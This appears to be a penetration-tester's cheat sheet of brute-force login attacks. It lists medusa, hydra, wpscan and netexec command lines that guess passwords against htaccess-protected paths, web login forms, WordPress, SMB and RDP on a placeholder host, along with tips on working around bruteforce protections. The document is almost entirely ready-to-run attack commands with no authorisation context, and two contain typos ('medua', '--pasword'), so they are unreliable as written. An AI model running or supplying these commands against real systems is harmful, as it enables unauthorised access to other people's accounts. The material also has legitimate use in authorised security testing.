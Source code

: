 ## HTTP htaccess
  *  `medusa` for bruteforcing [htaccess](https://httpd.apache.org/docs/2.4/howto/htaccess.html) restricted resources

```
medua -h 10.0.0.1 -u bob -P /path/to/passwords.txt -M http -m DIR:/protected/resource/path
```

## HTTP POST forms
  *  `hydra` for bruteforcing HTTP POST forms 
      *  Provide success/failure indicators for proper reporting
      *  Beware cookies, session IDs, tokens, etc. for bruteforce protection
      *  `Burp intruder` recursive grep function works but it throttles

```
hydra -l bob -P /path/to/passwords.txt 10.0.0.1 -vV http-post-form '/login:username=^USER^&password=^PASS^:F=FAILED LOGIN MESSAGE'
hydra -l bob -P /path/to/passwords.txt 10.0.0.1 -vV http-post-form '/login:username=^USER^&password=^PASS^:S=SUCCESS LOGIN MESSAGE'
hydra -l bob -e nsr 10.0.0.1 -vV http-post-form '/login:username=^USER^&password=^PASS^:S=SUCCESS LOGIN MESSAGE'
hydra -L users.txt -P /path/to/passwords.txt 10.0.0.1 -vV http-post-form '/login:username=^USER^&password=^PASS^:S=SUCCESS HTTP CODE'
```

## Wordpress
  *  `wpscan` is normally an enum tool, but also supports bruteforce

```
wpscan --url http://10.0.0.1 --usernames bob --password /path/to/passwords.txt
wpscan --url http://10.0.0.1 --usernames users.txt --pasword /path/to/known/passwords.txt
```

## SMB
  *  `netexec` for SMB bruteforcing

```
netexec smb 10.0.0.1 -u bob -p /path/to/passwords.txt -d example.local --continue-on-success
netexec smb 10.0.0.1 -u bob -p /path/to/passwords.txt --local-auth
netexec smb 10.0.0.1 -u users.txt -p /path/to/passwords.txt --local-auth
```

## Remote desktop
  *  `netexec` for RDP bruteforcing
  *  `hydra` also supports RDP bruteforce (occasional jank)

```
netexec rdp 10.0.0.1 -u bob -p /path/to/passwords.txt -d example.local --continue-on-success
netexec rdp 10.0.0.1 -u bob -p /path/to/passwords.txt --local-auth
netexec rdp 10.0.0.1 -u users.txt -p /path/to/passwords.txt --local-auth
```
